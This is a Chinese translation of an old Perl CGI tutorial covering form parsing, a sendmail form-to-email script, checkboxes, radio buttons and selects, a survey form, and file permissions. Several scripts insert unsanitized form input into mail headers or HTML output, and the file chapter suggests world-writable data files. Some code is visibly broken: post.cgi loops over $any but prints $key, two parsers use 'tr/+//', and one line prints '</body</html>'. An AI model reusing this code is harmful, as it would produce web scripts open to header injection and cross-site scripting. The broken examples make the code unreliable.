<form action="env.cgi" method="GET">
First Name: <input type="text" name="fname" size=30><p>
Last Name:  <input type="text" name="lname" size=30><p>
<input type="submit">
</form>
```

这将按以下方式传递给 `env.cgi` 脚本：

```
$ENV{'QUERY_STRING'} = fname=joe&lname=smith
```

这些值由和号 (`&`) 分隔。为了解析它，你需要使用 Perl 的 `split` 函数来分割查询字符串：

```
@values = split(/&/,$ENV{'QUERY_STRING'});
foreach $i (@values) {
    ($varname, $mydata) = split(/=/,$i);
    print "$varname = $mydata\n";
}
```

`split` 允许你将一个字符串在特定字符处拆分为一个包含不同字符串的数组。在第一种情况下，我们在 `&` 处拆分。这给了我们两个值："fname=joe" 和 "lname=smith"，它们存储在名为 `@values` 的数组中。然后，通过 `foreach` 循环，我们进一步在 `=` 符号处拆分每个字符串，并打印出字段名称以及在表单该字段中输入的数据。

关于 GET 的一些警告：它完全不是一种安全的数据发送方法，因此不要用它来发送密码信息、信用卡数据或其他敏感信息。由于数据作为 URL 的一部分传递，它将出现在 Web 服务器的日志文件中（包含所有数据），如果该日志文件可被任何用户读取（大多数情况如此），你就在向任何可能看到它的人泄露信息。私人信息应始终使用 POST 方法发送，我们将在下一章介绍。（当然，如果你要求访问者发送信用卡号等敏感信息，除了 POST 方法外，你还应该使用安全服务器。）

GET 最有用的一点是它们可以被嵌入在链接中而无需表单元素。这经常与数据库结合使用，或者在你想让单个 CGI 处理一组定义明确的选项时使用。例如，你可能有一个文章数据库，每篇文章都有一个唯一的文章 ID。你可以编写一个单一的 `article.cgi` 来提供文章，CGI 只需要查看查询字符串来确定显示哪篇文章：

```
<a href="article.cgi?22">Article Header</a>
```

## 远程主机 ID

你可能见过一些网页向你问候，信息类似于 "Hello, visitor from (yourhost)!"，其中 (yourhost) 是你的实际主机名或 IP 地址。以下是如何实现该功能的一个示例：

```
#!/usr/bin/perl
print "Content-type:text/html\n\n";
print <<EndHTML,
<html><head><title>Hello!</title></head>
<body>
<h2>Hello!</h2>
Welcome, visitor from $ENV{'REMOTE_HOST'}!<p>
</body></html>
EndHTML
```

源代码：http://www.cgi101.com/class/ch3/rhost.txt

运行示例：http://www.cgi101.com/class/ch3/rhost.cgi

这个特定的 CGI 创建了一个新页面，但你可能更想使用服务器端包含 (SSI) 来将此信息嵌入到另一个页面中。有关 SSI 的更多信息，请参阅第 9 章。

一个注意事项：如果你的服务器未配置为主机名查找，则此方法将不起作用。另一种替代方案是显示访问者的 IP 地址：

```
Welcome, visitor from $ENV{'REMOTE_ADDR'}<p>;
```

运行示例：http://www.cgi101.com/class/ch3/rhostip.cgi

## 上一次访问的页面

这是远程主机 ID 脚本的一个变体——这里，我们展示的是你上次访问的页面。

```
#!/usr/bin/perl
print "Content-type:text/html\n\n";
print <<EndHTML
<html><head><title>Hello!</title></head>
<body>
<h2>Hello!</h2>
I see you've just come from $ENV{'HTTP_REFERER'}!<p>
</body>
</html>
EndHTML
```

源代码：http://www.cgi101.com/class/ch3/refer.txt

运行示例：http://www.cgi101.com/class/ch3/refer.cgi

`HTTP_REFERER` 仅在访客实际点击链接访问你的页面时才会被设置。如果他们直接输入 URL，那么 `HTTP_REFERER` 为空。

## 检查浏览器类型

这个脚本进行一些模式匹配来查看访客正在使用什么浏览器，并根据浏览器类型显示不同的消息。

```
#!/usr/bin/perl
print "Content-type:text/html\n\n";
print "<html><head><title>Welcome</title></head>\n";
print "<body>\n";
print "Browser: $ENV{'HTTP_USER_AGENT'}<p>\n";

if ($ENV{'HTTP_USER_AGENT'} =~ /MSIE/) {
    print "You seem to be using <b>Internet Explorer!</b><p>\n";
} elsif ($ENV{'HTTP_USER_AGENT'} =~ /Mozilla/) {
    print "You seem to be using <b>Netscape!</b><p>\n";
} else {
    print "You seem to be using a browser other than Netscape
or IE.<p>\n";
}
```

```
print "</body></html>\n";
```

- 源代码：http://www.cgi101.com/class/ch3/browser.txt
- 运行示例：http://www.cgi101.com/class/ch3/browser.cgi

这是一个棘手的例子，因为 IE 实际上在浏览器类型字符串中包含 "Mozilla"。所以我们必须先尝试匹配 "MSIE"，然后再匹配 "Mozilla"。`=~` 是一个模式匹配运算符：它检查 `/pattern/` 是否包含在字符串的某个位置。你也可以使用 `=~` 运算符来替换模式；我们将在下一章看到一个示例。

## 资源

访问 http://www.cgi101.com/class/ch3/ 获取本章的源代码和链接。

# 处理表单

你创建的大多数表单会使用 POST 方法发送数据。POST 比 GET 更安全，因为数据不会作为 URL 的一部分发送，而且你可以用 POST 发送更多数据。此外，你的浏览器、Web 服务器或代理服务器可能会缓存 GET 查询，但 POST 的数据每次都会发送。然而，由于大多数表单提交的数据通常比一两个单词更复杂，解码 POST 数据会多一些工作量。

你的 Web 服务器在发送表单数据到你的 CGI 时，会对要发送的数据进行编码。字母数字字符按原样发送；空格被转换为加号（+）；其他字符——制表符、引号等——被转换为 "%HH"，即百分号和两个表示该字符 ASCII 码的十六进制数字。这称为 *URL 编码*。下面是一些常见编码字符的表格：

| 正常字符 | URL 编码字符串 |
| :--- | :--- |
| `\t` (制表符) | `%09` |
| `\n` (回车) | `%0A` |
| `/` | `%2F` |
| `~` | `%7E` |
| `:` | `%3A` |
| `;` | `%3B` |
| `@` | `%40` |
| `&` | `%26` |

为了对这些数据做任何有用的处理，你的 CGI 必须解码它们。幸运的是，在 Perl 中使用 *substitute* 和 *translate* 命令这很容易做到。Perl 具有强大的模式匹配和替换能力；它可以使用 *正则表达式*（见第 14 章）匹配字符串中最复杂的模式。但它也能胜任最简单的替换。替换的基本语法是：

```
$mystring =~ s/pattern/replacement/;
```

这个命令将标量变量 `$mystring` 中的 `pattern` 替换为 `replacement`。注意运算符是 `=~`（等号后跟波浪号）——这是 Perl 的一个特殊运算符，告诉它即将进行模式匹配或替换。下面是它的工作原理示例：

```
$greetings = "Hello. My name is xnamex.\n";
$greetings =~ s/xnamex/Bob/;
print $greetings;
```

上面的代码将输出 "Hello. My name is Bob." 注意替换操作将 `$greetings` 字符串中的 "xnamex" 替换为了 "Bob"。

一个类似但略有不同的命令是 translate 命令：

```
$mystring =~ tr/searchlist/replacementlist/;
```

这个命令将 `$mystring` 的整值中 `searchlist` 里的每个字符翻译为其在 `replacementlist` 中对应的字符。一个常见的用途是改变字符串中所有字符的大小写：

```
$lowerc =~ tr/[A-Z]/[a-z]/;
```

这将使 `$lowerc` 被翻译为全部小写字母。`[A-Z]` 周围的括号表示要匹配的字符类。

## 解码表单数据

使用 POST 方法时，表单数据通过从服务器到你的 CGI 的输入流发送。要获取这些数据、存储并解码它，我们将使用以下代码块：

```
read(STDIN, $buffer, $ENV{'CONTENT_LENGTH'});
@pairs = split(/&/, $buffer);
foreach $pair (@pairs) {
    ($name, $value) = split(/=/, $pair);
    $value =~ tr/+/ /;
    $value =~ s/%([a-fA-F0-9][a-fA-F0-9])/pack("C", hex($1))/eg;
    $FORM{$name} = $value;
}
```

我们来看看每一部分。首先，我们用这行代码读取输入流：

```
read(STDIN, $buffer, $ENV{'CONTENT_LENGTH'});
```

输入流通过 STDIN（标准输入）传入，我们使用 Perl 的 `read` 函数将数据存储到标量变量 `$buffer` 中。你还会注意到 `read` 函数的第三个参数，它指定要读取的数据长度；我们希望读到 `CONTENT_LENGTH` 的末尾，这是由服务器设置为环境变量的。

接下来我们将缓冲区分割成一对对的数组：

```
@pairs = split(/&/, $buffer);
```

与 GET 方法一样，表单数据对传输时由 `&` 符号分隔，例如 `fname=joe&lname=smith`。现在我们将使用 `foreach` 循环进一步将每对按等号分割：


```
foreach $pair (@pairs) {
    ($name, $value) = split(/=/, $pair);
```

下一行将每个 “+” 号翻译回空格：

```
$value =~ tr/+/ /;
```

接下来是一个相当复杂的正则表达式，使用 `pack()` 函数将每个 `%HH` 十六进制对替换回其等效的 ASCII 字符。我们将在第 14 章学习它的具体工作原理，但现在我们只需要用它来解析表单数据：

```
$value =~ s/%([a-fA-F0-9][a-fA-F0-9])/pack("C", hex($1))/eg;
```

最后，我们将值存储到一个名为 `%FORM` 的哈希中：

```
$FORM{$name} = $value;
}
```

`%FORM` 的键就是表单输入的名称本身。所以，例如，如果你在表单中有三个文本字段——名为 `name`、`email-address` 和 `age`——你可以在脚本中通过 `$FORM{'name'}`、`$FORM{'email-address'}` 和 `$FORM{'age'}` 来引用它们。

我们来试一试。新建一个 CGI，命名为 `post.cgi`。输入以下内容，保存并设置 `chmod`：

```
#!/usr/bin/perl
```

```
print "Content-type:text/html\n\n";

read(STDIN, $buffer, $ENV{'CONTENT_LENGTH'});
@pairs = split(/&/, $buffer);
foreach $pair (@pairs) {
    ($name, $value) = split(/=/, $pair);
    $value =~ tr/+/ /;
    $value =~ s/%([a-fA-F0-9][a-fA-F0-9])/pack("C", hex($1))/eg;
    $FORM{$name} = $value;
}

print "<html><head><title>Form Output</title></head><body>";
print "<h2>Results from FORM post</h2>\n";

foreach $any (keys(%FORM)) {
    print "$key = $FORM{$key}<br>";
}

print "</body></html>";
```

源代码：`http://www.cgi101.com/class/ch4/post.txt`

这段代码可用于处理几乎任何表单，从简单的留言簿表单到更复杂的订单表单。无论你的表单中有哪些变量，这个 CGI 都会将它们以及输入的数据打印出来。

我们来测试这个脚本。创建一个包含以下字段的 HTML 表单：

```
<form action="post.cgi" method="POST">
    Your Name:  <input type="text" name="name">
    Email Address:  <input type="text" name="email">
    Age:  <input type="text" name="age">
    Favorite Color:  <input type="text" name="favorite_color">
    <input type="submit" value="Send">
    <input type="reset" value="Clear Form">
</form>
```

源代码：`http://www.cgi101.com/class/ch4/post.html`

在字段中输入一些数据，完成后按 “send”。输出将是这些文本框的变量名称，加上你在每个字段中实际输入的数据。

> 提示：如果你在调整表单中的输入框对齐时遇到困难，可以尝试在输入字段周围加上 `<pre>` 标签。这样你就可以在文本编辑器中直接对齐它们，结果会使表单看起来整洁得多。其原因是大多数浏览器对预格式化文本使用固定宽度字体（如 `Monaco` 或 `Courier`），而在预格式化文本块中对齐表单和其他数据比在普通 HTML 中要容易得多。但这只有在你的文本编辑器同样使用固定宽度字体时才有效！

另一种对齐输入框的方法是将它们全部放入一个表格中，左列放置输入名称，右列放置输入框。

## 表单转邮件 CGI (A Form-to-Email CGI)

大多数使用表单的人希望数据能通过电子邮件发回给自己，所以，让我们编写一个表单转邮件的 CGI。首先，你需要弄清楚在你所使用的 Unix 系统中 `sendmail` 程序位于何处。（对于 `cgi101.com`，它位于 `/usr/sbin/sendmail`。如果你不确定你的程序在哪里，可以尝试运行 `"which sendmail"` 或 `"whereis sendmail"`：通常这两个命令中的一个会给出 `sendmail` 程序的具体位置。）

将你的 `post.cgi` 复制到一个名为 `mail.cgi` 的新文件中。主要的改动将是在 `foreach` 循环中。你不再是将内容打印到标准输出（即用户点击提交后看到的 HTML 页面），而是希望将变量的值打印到邮件消息中。因此，首先，你需要打开一个指向 `sendmail` 程序的 `pipe`（管道）：

```perl
$mailprog = '/usr/sbin/sendmail';
open (MAIL, "|$mailprog -t")
```

这个管道会将打印到该文件句柄 (`MAIL`) 的所有输出直接传递给邮件程序，就像它是该程序的标准输入一样。

你还需要指定电子邮件的接收者，可以使用以下任一方式：

```perl
$recipient = 'nullbox@cgi101.com';
$recipient = "nullbox\@cgi101.com";
```

如果你在双引号字符串或 `here-doc` 块中使用 `@`，Perl 会报错。你可以安全地将 `@` 符号放在单引号字符串中，例如 `'nullbox@cgi101.com'`，或者在其他字符串中使用反斜杠对 `@` 符号进行转义。例如，`"nullbox\@cgi101.com"`。

在接下来的代码中，你不需要包含注释；它们只是为了向你展示程序在做什么。

```perl
#!/usr/bin/perl

print "Content-type:text/html\n\n";

# parse the form data.
read(STDIN, $buffer, $ENV{'CONTENT_LENGTH'});
@pairs = split(/&/, $buffer);
foreach $pair (@pairs) {
    ($name, $value) = split(/=/, $pair);
    $value =~ tr/+/ /;
    $value =~ s/%([a-fA-F0-9][a-fA-F0-9])/pack("C", hex($1))/eg;
    $FORM{$name} = $value;
}

# where is the mail program?
$mailprog = '/usr/sbin/sendmail';

# change this to your own email address
$recipient = 'nullbox@cgi101.com';

# this opens an output stream and pipes it directly to the
# sendmail program. If sendmail can't be found, abort nicely
# by calling the dienice subroutine (see below)
open (MAIL, "|$mailprog -t") or dienice("Can't access $mailprog!\n");

# here we're printing out the header info for the mail
# message. You must specify who it's to, or it won't be
# delivered:
print MAIL "To: $recipient\n";

# Reply-to can be set to the email address of the sender,
# assuming you have actually defined a field in your form
# called 'email'.
print MAIL "Reply-to: $FORM{'email'} ($FORM{'name'})\n";

# print out a subject line so you know it's from your form cgi.
# The two \n\n's end the header section of the message.
# anything you print after this point will be part of the
# body of the mail.
print MAIL "Subject: Form Data\n\n";

# here you're just printing out all the variables and values,
# just like before in the previous script, only the output
# is to the mail message rather than the followup HTML page.
foreach $key (keys(%FORM)) {
    print MAIL "$key = $FORM{$key}\n";
}

# when you finish writing to the mail message, be sure to
# close the input stream so it actually gets mailed.
close(MAIL);

# now print something to the HTML page, usually thanking
# the person for filling out the form, and giving them a
# link back to your homepage
print <<EndHTML;
<h2>Thank You</h2>
Thank you for writing. Your mail has been delivered.<p>
Return to our <a href="index.html">home page</a>.
</body></html>
EndHTML

# The dienice subroutine, for handling errors.
sub dienice {
    my($errmsg) = @_;
    print "<h2>Error</h2>\n";
    print "$errmsg<p>\n";
    print "</body</html>\n";
    exit;
}
```

源代码：`http://www.cgi101.com/class/ch4/mail.txt`

现在让我们测试这个新脚本。这里再次给出表单，只是这次的 `action` 指向了 `mail.cgi`：

```html
<form action="mail.cgi" method="POST">
    Your Name: <input type="text" name="name">
    Email Address: <input type="text" name="email">
    Age: <input type="text" name="age">
    Favorite Color: <input type="text" name="favorite_color">
    <input type="submit" value="Send">
    <input type="reset" value="Clear Form">
</form>
```

运行示例：`http://www.cgi101.com/class/ch4/mail.html`

保存它，在表单中输入一些数据，然后按下 “发送”。如果脚本运行成功，你会在片刻之后收到一封包含提交结果的电子邮件。（记得将 `$recipient` 修改为你的电子邮件地址！）

## 发送邮件给多个接收者

如果你想将表单的输出发送到多个电子邮件地址怎么办？很简单：只需在 `$recipient` 行中添加所需的地址即可：

```perl
$recipient = 'kira@cgi101.com, kira@io.com, webmaster@cgi101.com';
```

## 子程序 (Subroutines)

在上面的脚本中，我们使用了一个新结构：一个名为 `dienice` 的子程序。子程序是一个独立于主程序之外的代码块，只有在被直接调用时才会运行。在上面的示例中，只有当主程序无法打开 `sendmail` 时，`dienice` 才会运行。与其直接中止并给你一个服务器错误（或者更糟，没有任何错误），你希望你的脚本能提供一些关于出错原因的有用数据：`dienice` 通过打印错误消息、关闭 HTML 标签并退出 Perl 来实现这一点。调用子程序有几种方式：

```perl
&subname;
&subname(args);
subname;
subname(args);
```

子程序名称之前的 `&` 是可选的。`args` 是传递给子程序的值。

子程序对于隔离脚本中频繁重复使用的代码块非常有用。子程序的结构如下：

```perl
sub subname {
    ...code to execute...
}
```

子程序可以放置在 CGI 的任何位置，但为了可读性，通常最好将它们放在最后，即主代码之后。你也可以引入并使用来自不同文件和模块的子程序；我们将在第 17 章详细介绍。

你可以将数据传递给子程序。例如：

```perl
mysub($a, $b, $c);
```

这将标量变量 `$a`、`$b` 和 `$c` 传递给 `mysub` 子程序。被传递的数据（称为 *参数 (arguments)*）是以列表形式发送的。子程序通过特殊数组 `@_` 来访问参数列表。然后你可以将该数组的元素赋值给特殊的临时变量，如下所示：

```perl
sub mysub {
    my($tmpa, $tmpb, $tmpc) = @_;
    ...code to execute...
}
```

注意到变量列表前面的 `my` 了吗？`my` 是一个 Perl 函数，它将变量或变量列表的作用域限制在包含它的子程序内。这使得你的临时变量仅对子程序本身可见（在那里它们才真正被需要和使用），而不是对整个脚本可见（在那里它们是不需要的）。

在本书的其余部分，我们将一直使用 `dienice` 子程序作为一个通用的错误处理程序。

## *资源*

访问 `http://www.cgi101.com/class/ch4/` 获取本章的源代码和链接。

# 5 高级表单

在上一章中，你学习了如何解码表单数据并将其发送给自己。然而，之前的脚本有一个问题，就是它没有任何错误检查或专门的处理过程。你可能不希望收到空白表单，或者你可能要求某些字段必须填写。你可能还想编写一个测验或问卷，并让你的脚本根据答案采取不同的操作。所有这些都需要对表单数据进行更高级的处理。

这里唯一需要的是知道如何在 Perl 中测试条件。在表单处理脚本中，你可能会用到的主要是 `if-elsif` 条件：

```perl
if ($varname eq "somestring") {
    ...do stuff here if the condition is true
}
elsif ($varname eq "someotherstring") {
    ...do other stuff
}
else {
    ...do this if none of the other conditions are met
}
```

`elsif` 和 `else` 块是可选的；如果你只是测试某个特定变量是否为真，可以使用单个 `if` 块：

```perl
if ($varname > 23) {
    ...do stuff here if the condition is true
}
```

在 Perl 中，根据你要测试的变量是字符串还是数字，有不同的条件测试运算符：

## 比较操作符

| 测试 | 数字 | 字符串 |

| :--- | :--- | :--- |

| `$x` 是否等于 `$y` | `$x == $y` | `$x eq $y` |

| `$x` 是否不等于 `$y` | `$x != $y` | `$x ne $y` |

| `$x` 是否大于 `$y` | `$x > $y` | `$x gt $y` |

| `$x` 是否大于或等于 `$y` | `$x >= $y` | `$x ge $y` |

| `$x` 是否小于 `$y` | `$x < $y` | `$x lt $y` |

| `$x` 是否小于或等于 `$y` | `$x <= $y` | `$x le $y` |

基本上，如果是字符串测试，你使用字母运算符 (`eq`, `ne`, `lt` 等)，如果是数字测试，你使用符号 (`==`, `!=` 等)。另外，如果你在做数字测试，请记住 `$x >= $y` 与 `$x => $y` 不同。请务必使用正确的运算符！

让我们试一下。将你的 `mail.cgi` 复制到一个新脚本 `mail2.cgi`，并在 `open(MAIL)` 语句之前插入以下条件测试：

```
if ($FORM{'name'} eq "") {
    dienice("Please fill out the field for your name.");
}
```

这个条件利用了我们之前编写的 `dienice` 子程序。现在，如果你提交一个空白表单，你将得到错误消息。

你可以扩展它来同时测试多个字段：


```
if ($FORM{'name'} eq "" or $FORM{'email'} eq "" or
$FORM{'age'} eq "") {
    dienice("Please fill out the fields for your name, age,
and email.");
}
```

上面的代码如果`name`、`email`或`age`字段中有任何一个留空，就会返回错误。条件由`or`运算符分隔（也可以写成`||`）——如果（`test1 or test2 or test3`）中任何一个为真，则条件成立。

## 处理复选框

你可能希望在表单中包含复选框，以允许用户选择一个或多个选项。但你如何在CGI中解码它们呢？

如果你只是想在电子邮件消息中显示它们，你可以像打印任何文本字段一样打印它们：每个复选框都有不同的名称。打开一个新的HTML文件，并将其命名为`colors.html`。输入以下表单：

```
<html><head><title>colors</title></head>
<body>
<form action="colors.cgi" method="POST">

<h3>What are your favorite colors?</h3>
<input type="checkbox" name="red" value=1> Red<br>
<input type="checkbox" name="green" value=1> Green<br>
<input type="checkbox" name="blue" value=1> Blue<br>
<input type="checkbox" name="gold" value=1> Gold<br>

<input type="submit">

</form>
</body></html>
```

📁 源代码：[http://www.cgi101.com/class/ch5/colors.html](http://www.cgi101.com/class/ch5/colors.html)

屏幕上的显示效果如下：


这个示例让访问者可以选择他们想要的任意多个选项——或者如果他们愿意，一个也不选。虽然你可以将复选框字段的`value="whatever"`部分设置为任何你想要的值，但如果你使用整数，那么在CGI中的代码会更少。

现在让我们编写CGI来处理上面的表单。将其命名为`colors.cgi`：

```
#!/usr/bin/perl

print "Content-type:text/html\n\n";

read(STDIN, $buffer, $ENV{'CONTENT_LENGTH'});
@pairs = split(/&/, $buffer);
foreach $pair (@pairs) {
    ($name, $value) = split(/=/, $pair);
    $value =~ tr/+//;
    $value =~ s/%([a-fA-F0-9][a-fA-F0-9])/pack("C", hex($1))/eg;
    $FORM{$name} = $value;
}

print "<html><head><title>Results</title></head>\n";
print "<body>\n";
print "<h2>Results</h2>\n";

@colors = ("red", "green", "blue", "gold");
foreach $x (@colors) {
    if ($FORM{$x} == 1) {
        print "You picked $x.\n";
    }
}

print "</body></html>\n";
```

源代码：[http://www.cgi101.com/class/ch5/colors.txt](http://www.cgi101.com/class/ch5/colors.txt)

注意：如果你在表单中使用了`value=1`，那么你的CGI可以用上面的代码来测试它。但如果你在`1`周围加上引号，例如`value="1"`，那么你的CGI将无法工作，除非你将`==`运算符更改为`eq`：

```
if ($FORM{$x} eq "1") {
    ...do whatever
}
```

## 处理单选按钮

单选按钮与复选框的不同之处在于，你可以在表单本身中让几个按钮共享相同的字段名称——从而允许用户只从一系列选项中选择一个。为了区分每个选项，按钮本身必须具有不同的值。

让我们试一下。获取你的`colors.html`文件，并将其复制到`colors2.html`。然后编辑它，用以下内容替换复选框字段：

```
<h3>What is your favorite color?</h3>
<input type="radio" name="color" value="red"> Red<br>
<input type="radio" name="color" value="green"> Green<br>
<input type="radio" name="color" value="blue"> Blue<br>
<input type="radio" name="color" value="gold"> Gold<br>
```

源代码：[http://www.cgi101.com/class/ch5/colors2.html](http://www.cgi101.com/class/ch5/colors2.html)

屏幕上的显示效果如下：



这类似于复选框表单。然而，在这种情况下，每个单选按钮具有相同的字段名称，但值不同。最简单的方法是将值设置为与所选事物的名称相关——在这个例子中，值被设置为颜色本身的名称。Perl可以相当简单地处理单选按钮。将你的`colors.cgi`复制到`colors2.cgi`，并用下面这行替换`foreach`循环：

```
print "Your favorite color is: $FORM{'color'}<br>\n";
```

源代码：[http://www.cgi101.com/class/ch5/colors2.txt](http://www.cgi101.com/class/ch5/colors2.txt)

你在这里看到为什么最好将值设置为有意义的东西——这让你可以直接打印出单选按钮及其值，而无需在CGI中存储另一个列表来显示每个按钮的含义。

让我们更进一步。假设你不仅想告诉用户他们选择了什么颜色，而且还想向他们展示它。编辑你的`colors2.cgi`，并用以下代码替换现有的`print`语句：

```
%colors = ( "red"    => "#ff0000",
           "green"  => "#00ff00",
           "blue"   => "#0000ff",
           "gold"   => "#ffcc00");

print "<html><head><title>Colors</title></head>\n";
print "<body bgcolor=\"$colors{$FORM{'color'}}\">\n";
print "<h2>Your favorite color is: $FORM{'color'}</h2><br>\n";
print "</body></html>";
```

源代码：[http://www.cgi101.com/class/ch5/colors2a.txt](http://www.cgi101.com/class/ch5/colors2a.txt)

上面的代码实际上将背景颜色设置为你选择的颜色。它使用了一个名为`%colors`的哈希，其键与表单中单选按钮的数据值相同。哈希的值是这些颜色的十六进制代码。

## 处理SELECT字段

SELECT字段的处理方式几乎与单选按钮完全相同。在HTML页面中，SELECT字段是一个下拉菜单，如下所示：

你最喜欢的颜色是什么？



生成上述内容的HTML如下：

```
<select name="color">
<option value="red"> Red
<option value="green"> Green
<option value="blue"> Blue
<option value="gold"> Gold
</select>
```

与单选按钮一样，你可以按照表单中的方式打印出选择结果：

```
print "Your favorite color is: $FORM{'color'}<br>\n";
```

这仅在你的SELECT语句是单值SELECT（即你的访问者不能从选择列表中选择多个项目）时有效。有关处理多值SELECT的内容，请参见下文。

## 多选SELECT

我们的上述表单处理代码不处理多选SELECT的原因是，我们为表单中的每个字段名称分配了一个单个`$value`：

```
$FORM{$name} = $value;
```

如果你有一个多选SELECT，像这样：

```
<select name="cities" multiple size=3>
<option>Dallas
<option>Houston
<option>Seattle
<option>Portland
<option>Denver
</select>
```

此代码允许用户从列表中选择多个城市：



那么当你的表单数据传递给CGI时，表单数据中会有多个`cities`实例。所以如果`$FORM{'cities'}`已经存在并且有值，而你发送另一个值，旧值会被新值覆盖。

解决这个问题的方法是以不同的方式处理多选SELECT，将它们存储在自己的数组中，而不是在`$FORM`哈希中。下面是你可能的做法：

```
@cities = ();

read(STDIN, $buffer, $ENV{'CONTENT_LENGTH'});
@pairs = split(/&/, $buffer);
foreach $pair (@pairs) {
    ($name, $value) = split(/=/, $pair);
    $value =~ tr/+// ;
    $value =~ s/%([a-fA-F0-9][a-fA-F0-9])/pack("C", hex($1))/eg;
    if ($name eq "cities") {
        push(@cities, $value);
    } else {
```

```
    $FORM{$name} = $value;
}
}
```

源代码：[http://www.cgi101.com/class/ch5/mform.txt](http://www.cgi101.com/class/ch5/mform.txt)

运行示例：[http://www.cgi101.com/class/ch5/mform.html](http://www.cgi101.com/class/ch5/mform.html)

现在你可以使用`@cities`数组对多字段城市数据进行任何特殊处理。其他所有内容都存储在`%FORM`中。

## 调查表单与CGI

让我们将到目前为止学到的知识投入到实际应用中：创建一个调查表单及其相应的CGI。这类表单能为你的网站增加交互性，无论你是想做一个简单的每日单题投票，还是一个针对网站读者的详细调查。

创建一个新的HTML表单，命名为`survey.html`。输入以下表单内容：

```
<html><head><title>Survey</title></head>
<body>
<h2>Survey</h2>
<form action="survey.cgi" method="POST">

Enter your name: <input type="text" name="name" size=30><p>

Your email address: <input type="text" name="email" size=30><p>

How did you reach this site? <select name="howreach">
<option value=0 selected>Choose one...
<option value=1>Typed the URL directly
<option value=2>Site is bookmarked
<option value=3>A search engine
<option value=4>A link from another site
<option value=5>From a book
<option value=6>Other
</select><p>

How would you rate the content of this site?<br>
Poor <input type="radio" name="rating" value=1> 1
<input type="radio" name="rating" value=2> 2
<input type="radio" name="rating" value=3> 3
<input type="radio" name="rating" value=4> 4
<input type="radio" name="rating" value=5> 5 Excellent<p>
```

您是否参与以下任何一项？（勾选所有适用项）：<br>

```
<input type="checkbox" name="des" value=1> Website Design<br>
<input type="checkbox" name="svr" value=1> Web Server Administration<br>
<input type="checkbox" name="com" value=1> Electronic Commerce<br>
<input type="checkbox" name="mkt" value=1> Web Marketing/Advertising<br>
<input type="checkbox" name="edu" value=1> Web-related Education<br>
<p>
```

```
Any other comments?<br>
<textarea name="comments" rows=5 cols=70 wrap="VIRTUAL">
</textarea>
<p>
```

```
<input type="submit">
</form>
</body></html>
```

保存它。现在创建`survey.cgi`：

```
#!/usr/bin/perl
print "Content-type:text/html\n\n";

read(STDIN, $buffer, $ENV{'CONTENT_LENGTH'});
@pairs = split(/&/, $buffer);
foreach $pair (@pairs) {
    ($name, $value) = split(/=/, $pair);
    $value =~ tr/+/ /;
    $value =~ s/%([a-fA-F0-9][a-fA-F0-9])/pack("C",hex($1))/eg;
    $FORM{$name} = $value;
}
```

```
# 由于“您是如何访问本站的”列表是以
# 数字保存的，我们需要一个哈希表将其翻译回英文：
%howreach = ( 0 => "",
             1 => "Typed the URL directly",
             2 => "Site is bookmarked",
             3 => "A search engine",
             4 => "A link from another site",
             5 => "From a book",
             6 => "Other" );

print <<EndHTML;
<html><head><title>Results</title></head>
<body>
<h2>Results</h2>

Here's what you entered:<p>
Your name: $FORM{'name'}<p>
Email: $FORM{'email'}<p>
How you reached this site: $howreach{$FORM{'howreach'}}<p>
How you'd rate this site (1=poor,5=excellent):
$FORM{'rating'}<p>
EndHTML

%boxes = ( "des" => "Website Design",
           "svr" => "Web Server Administration",
           "com" => "Electronic Commerce",
           "mkt" => "Web Marketing/Advertising",
           "edu" => "Web-Related Education" );

print "You're also involved in the following:<br>\n";
foreach $key (keys %boxes) {
    if ($FORM{$key} == 1) {
        print "$boxes{$key}<br>\n";
    }
}

print <<EndFoot;
<p>
Your comments:<br>
$FORM{'comments'}<p>
</body></html>
EndFoot
```

源代码：[http://www.cgi101.com/class/ch5/survey.txt](http://www.cgi101.com/class/ch5/survey.txt)

运行示例：[http://www.cgi101.com/class/ch5/survey.html](http://www.cgi101.com/class/ch5/survey.html)


保存并对其执行`chmod`，然后在浏览器中尝试填写该调查表。此示例将结果发布到页面上，但你也可以使用第 4 章中的邮件代码，同样轻松地将结果副本发送到自己的邮箱。在这种情况下，在打开`MAIL`句柄后，你唯一需要更改的是将`print <<EndHTML`语句改为：

```perl
print MAIL <<EndHTML;
```

这将把随后的文本重定向到邮件消息中，而不是标准输出。

然而，你更有可能想将数据写入文件，以便稍后分析结果。我们接下来将讨论读写文件。

## 资源

访问`http://www.cgi101.com/class/ch5/`获取本章的源代码和链接。

# 6 读写数据文件

当你开始编写更高级的 CGI 应用程序时，你会希望存储数据以便以后使用。也许你有一个留言板程序，想要记录访问者的姓名和电子邮件地址；或者一个必须更新计数文件的计数器程序；或者一个扫描平面文件数据库并从中提取信息以生成页面的程序。你可以通过读写数据文件（通常称为`文件 I/O`）来实现这一点。

大多数 Web 服务器在运行时的权限非常有限：这是为了保护服务器（以及其运行的系统）免受用户或网页访问者的恶意攻击。不幸的是，这意味着写入文件会更加困难：当你的 CGI 运行时，它是以服务器的权限运行的，而服务器很可能没有权限在你的目录中创建文件。为了写入数据文件，你通常必须通过`chmod`命令将其设置为*所有人可写（world-writable）*：

```bash
chmod 666 myfile.dat
```

这将设置权限，使所有用户都能读取和写入该文件。（如果你希望该文件由你可读，但对所有其他用户仅限写入，请执行`chmod 622 filename`。）有关各种`chmod`权限的图表，请参阅附录 A。

这样做糟糕的地方在于，这意味着系统上的任何人都可以进入并更改你的数据文件，甚至将其删除，而你对此无能为力。

一些替代方案是 CGIwrap 和 Apache 的 suEXEC：这两者都强制 Web 服务器上的 CGI 在 CGI 所有者的用户 ID 和权限下运行。Apache 还允许 Web 管理员定义服务器（包括虚拟主机）在哪个用户和组下运行。如果你的站点是一个虚拟主机，请要求你的 Web 管理员将你的服务器设置在一个只有你是成员的组下。然后你可以通过以下方式之一对文件执行`chmod`：

```bash
chmod 664 myfile.dat # 组读写，所有人可读
chmod 660 myfile.dat # 组读写，所有人无权
```

这比设置一个所有人可写的文件要安全得多。请询问你的 Web 管理员如何保护你的数据文件。

如果你只需要读取文件，权限问题就没那么严重了：只需将文件设置为组可读和所有人可读，你的 CGI 就可以安全地从该文件中读取数据。

## 打开文件

读写文件是通过使用以下语句打开文件句柄来完成的：

```perl
open(filehandle,filename);
```

文件名可以带有`>`前缀，表示覆盖当前文件中的所有内容；或者带有`>>`前缀，表示在现有文件的末尾追加内容。如果省略`>`和`>>`，则文件以只读方式打开。这里有一些示例：

```perl
open(INF,"mydata.txt");          # 以读取方式打开 mydata.txt
open(OUTF,">outdata.txt");        # 以覆盖方式打开 outdata.txt
open(OUTF,">>outdata.txt");       # 以追加方式打开 outdata.txt
```

